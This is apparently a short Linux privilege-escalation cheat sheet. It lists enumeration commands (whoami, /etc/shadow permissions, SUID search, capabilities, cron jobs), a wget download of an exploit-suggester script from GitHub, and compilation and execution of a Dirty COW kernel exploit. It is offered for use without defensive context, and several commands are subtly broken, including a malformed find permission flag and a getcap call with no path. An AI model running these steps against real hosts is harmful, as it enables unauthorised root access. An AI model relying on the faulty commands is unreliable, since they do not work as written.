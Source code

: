 # Check id
id

# check who are you
whoami

# Check all the file you can read
ls -arh

# check weak file permission
ls -la /etc/shadow

# find suid file
find / -perm -u=\s -type f 2>/dev/null
after saving the suid go through all the lib with gtfbin.io

# capicity
getcap -r 2>/dev/null

# cronjob
# check all the posibble.
crontab -l 
cat /etc/crontab

# kernel exploit
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh

# dirty cow
https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
gcc -pthread cow.c -o cow
./cow
